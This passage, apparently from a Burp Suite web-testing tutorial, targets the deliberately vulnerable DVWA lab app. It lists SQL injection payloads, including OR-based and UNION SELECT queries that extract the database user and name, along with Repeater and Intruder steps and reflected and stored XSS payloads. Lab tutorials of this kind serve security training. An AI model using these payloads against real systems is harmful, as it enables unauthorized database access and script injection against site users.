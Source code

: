 3. **Attack Example: SQL Injection**
   ```http
   # Base request
   GET /DVWA/vulnerabilities/sqli/?id=§1§&Submit=Submit HTTP/1.1
   
   # Payload list
   1
   1'
   1"
   1' OR '1'='1
   1' UNION SELECT 1,2--
   ```

## Part 5: Vulnerability Testing

### SQL Injection Testing

1. **Manual Testing with Repeater**
   ```http
   # Test basic injection
   GET /DVWA/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit
   
   # Test UNION injection
   GET /DVWA/vulnerabilities/sqli/?id=1' UNION SELECT 1,2--&Submit=Submit
   
   # Extract database information
   GET /DVWA/vulnerabilities/sqli/?id=1' UNION SELECT user(),database()--&Submit=Submit
   ```

2. **Automated Testing with Intruder**
   - Set up Intruder attack on SQL injection point
   - Load SQL injection payloads
   - Analyze results for successful injections
   - Look for error messages or timing differences

### Cross-Site Scripting (XSS) Testing

1. **Reflected XSS**
   ```javascript
   # Test payloads
   <script>alert('XSS')</script>
   <img src=x onerror=alert('XSS')>
   javascript:alert('XSS')
   "><script>alert('XSS')</script>
   ```

2. **Stored XSS**
   - Submit XSS payloads through forms
   - Check if payload persists
   - Test different contexts (HTML, attributes, JavaScript)

### Authentication Testing
